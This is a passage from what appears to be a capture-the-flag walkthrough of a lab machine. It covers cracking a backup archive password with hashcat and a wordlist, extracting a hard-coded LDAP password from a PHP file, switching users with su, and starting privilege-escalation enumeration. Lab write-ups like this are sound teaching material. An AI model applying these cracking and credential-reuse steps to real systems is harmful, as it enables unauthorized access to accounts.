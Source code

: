 ```

$ hashcat -m 11600 -a 0 -o backup.cracked backup.hash /usr/share/wordlists/rockyou.txt --force
$ cat backup.cracked
delete

```

### Find Creds

Now I can see the contents, which is a backup of the web directories:

```

root@kali# ls -l backup
total 21
-rwxrwx--- 1 root vboxsf 4218 Jun 13  2018 index.php
-rwxrwx--- 1 root vboxsf 1764 Jun 13  2018 info.php
-rwxrwx--- 1 root vboxsf  360 Jun 10  2018 reset.php
-rwxrwx--- 1 root vboxsf 2400 Jun 14  2018 status.php
-rwxrwx--- 1 root vboxsf 1528 Jun 13  2018 user.php

```

In `status.php`, I’ll find creds for ldapuser1 (I’ll look more at the script in [Beyond Root](#which-ldap-creds--statusphp)):

```

$username = 'ldapuser1';
$password = 'f3ca9d298a553da117442deeb6fa932d';

```

### su

Now I can `su` to get a shell as ldapuser1:

```

[ldapuser2@lightweight ~]$ su ldapuser1
Password: 
[ldapuser1@lightweight ldapuser2]$ id
uid=1000(ldapuser1) gid=1000(ldapuser1) groups=1000(ldapuser1) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

```

## Privesc: ldapuser1 –> root

### Enumeration

Checking out the homedir for ldapuser1, I see a few interesting files:

```

[ldapuser1@lightweight ~]$ ls -l
total 1484
-rw-rw-r--. 1 ldapuser1 ldapuser1   9714 Jun 15  2018 capture.pcap
-rw-rw-r--. 1 ldapuser1 ldapuser1    646 Jun 15  2018 ldapTLS.php
-rwxr-xr-x. 1 ldapuser1 ldapuser1 555296 Jun 13  2018 openssl
-rwxr-xr-x. 1 ldapuser1 ldapuser1 942304 Jun 13  2018 tcpdump

```
